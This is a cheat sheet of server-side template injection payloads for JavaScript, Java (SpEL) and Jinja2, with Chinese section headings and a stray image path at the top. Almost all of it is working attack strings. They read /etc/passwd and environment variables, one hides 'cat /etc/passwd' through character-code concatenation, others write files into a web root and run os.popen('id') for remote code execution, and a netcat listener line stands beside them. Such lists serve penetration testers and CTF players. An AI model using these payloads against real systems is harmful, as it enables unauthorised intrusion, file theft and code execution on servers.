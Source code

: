 	#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
  #### JAVA
  	基本注入
	${7*7}
	${{7*7}}
	${class.getClassLoader()}
	${class.getResource("").getPath()}
	${class.getResource("../../../../../index.htm").getContent()}
	检索系统的环境变量
	${T(java.lang.System).getenv()}
	读取/etc/passwd
	${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

	${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
  #### Jinja2
  	基本注入
	{{4*4}}[[5*5]]
	{{7*'7'}} would result in 7777777
	{{config.items()}}

	{% extends "layout.html" %}
	{% block body %}
	  <ul>
	  {% for user in users %}
	    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
	  {% endfor %}
	  </ul>
	{% endblock %}
	debug
	<pre>{% debug %}</pre>
	转储所有使用的类
	{{ [].class.base.subclasses() }}
	{{''.class.mro()[1].subclasses()}}
	{{ ''.__class__.__mro__[2].__subclasses__() }}
	转储所有配置变量
	{% for key, value in config.iteritems() %}
	    <dt>{{ key|e }}</dt>
	    <dd>{{ value|e }}</dd>
	{% endfor %}
	远程读取文件
	# ''.__class__.__mro__[2].__subclasses__()[40] = File class
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
	{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
	# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
	{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
	远程写入文件
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
	远程代码执行
	监听nc -lnvp 8000
	通过调用 os.popen().read() 来利用 SSTI
	{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
